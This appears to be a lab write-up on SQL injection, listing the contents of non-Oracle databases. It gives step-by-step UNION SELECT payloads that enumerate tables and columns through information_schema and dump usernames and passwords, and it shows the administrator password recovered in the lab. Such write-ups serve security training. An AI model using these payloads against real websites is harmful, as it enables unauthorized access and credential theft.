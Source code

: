 # No.5 Lab: SQL injection attack, listing the database contents on non-Oracle databases
<img width="1919" height="968" alt="image" src="https://github.com/user-attachments/assets/cf4f4ece-7763-4955-a223-bafc536fcf82" />

### Step 1: Use Burp Suite to intercept and modify the request that sets the product category filter.
### Step 2: Make payload to get database information

#### Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:
`'+UNION+SELECT+'abc','def'--`
<img width="1493" height="958" alt="image" src="https://github.com/user-attachments/assets/cfc47f30-7510-4885-bb4f-c4df39c089b1" />

#### Use the following payload to retrieve the list of tables in the database:
`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`
<img width="1489" height="972" alt="image" src="https://github.com/user-attachments/assets/aaaf4cef-bfdf-4ec7-85ec-2060babe7bb5" />

#### Find the name of the table containing user credentials.

#### Use the following payload to retrieve the details of the columns in the table:
`'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_djvwwf'--`
<img width="1487" height="959" alt="image" src="https://github.com/user-attachments/assets/b61d313a-b50e-4429-a4e5-395e0f18bfef" />

#### Find the names of the columns containing usernames and passwords.

#### Use the following payload to retrieve the usernames and passwords for all users:
`'+UNION+SELECT+username_ltadir,+password_dbcgbx+FROM+users_djvwwf--`
<img width="1490" height="1001" alt="image" src="https://github.com/user-attachments/assets/de5f1c9f-a676-4a6f-ad8d-7aafb0e456ec" />

#### Find the password for the administrator user, and use it to log in.
Password: rgimusqflf2snya2i865
<img width="1919" height="961" alt="image" src="https://github.com/user-attachments/assets/7d0b72cb-3228-45c3-b4a2-aeafad112a1b" />
<img width="1919" height="959" alt="image" src="https://github.com/user-attachments/assets/6e5048ef-dd28-4914-b306-6201608a8c0c" />
